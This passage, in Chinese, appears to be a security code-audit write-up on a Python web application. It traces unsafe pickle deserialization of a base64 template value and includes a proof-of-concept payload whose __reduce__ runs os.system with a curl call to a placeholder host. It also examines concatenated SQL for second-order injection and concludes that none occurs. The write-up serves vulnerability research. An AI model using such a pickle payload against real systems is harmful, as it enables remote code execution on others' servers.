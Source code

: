 从表单中可以看到，`query_encoded`是模板写入，找到`urlsafe_query`看是如何调用的，从调用结果看，就知道是后台先去序列化然后赋值给模板，前端模板操作的时候，再把这个序列化的值传入后台中去反序列化。

```python
......
    import pickle
    from base64 import b64encode
    urlsafe_query = b64encode(pickle.dumps(query_params)).decode()
```

尝试构造一个反序列化的poc

```python
import pickle,os
from base64 import b64encode

class exp(object):
    def __reduce__(self):
        return (os.system,('curl http://xxxx/py',))
e = exp()
b64encode(pickle.dumps(e))
```

#### 二次注入

造成此问题的原因是拼接语句，直接使用数据库中的数据，例如如下代码，`fields`字段是一个元组，使用`OrderedDict`来维护一个键排序的链表。

```python
for form_id in form_ids:
    rows_list = []
    custom_reg_form = CustomRegForm.objects.get(id=form_id)

    fields = CustomRegField.objects.filter(
    form=custom_reg_form).order_by('position').values_list('id', 'label')
    fields_dict = OrderedDict(fields)
    
......
    registrant_tuple = CustomRegistrantTuple(**registrant)
    sql = """
        SELECT field_id, value
        FROM events_customregfieldentry
        WHERE field_id IN (%s)
        AND entry_id=%d
        """ % (','.join([str(id) for id in fields_dict]), entry_id)
    cursor.execute(sql)
    entry_rows = cursor.fetchall()
    values_dict = dict(entry_rows)
```

当使用数据库中的字段是添加的字段的时候，就会在sql处造成拼接，至于此处由于是使用了数据库字段的id值，并非数据库其他字段，所以并没有造成注入。

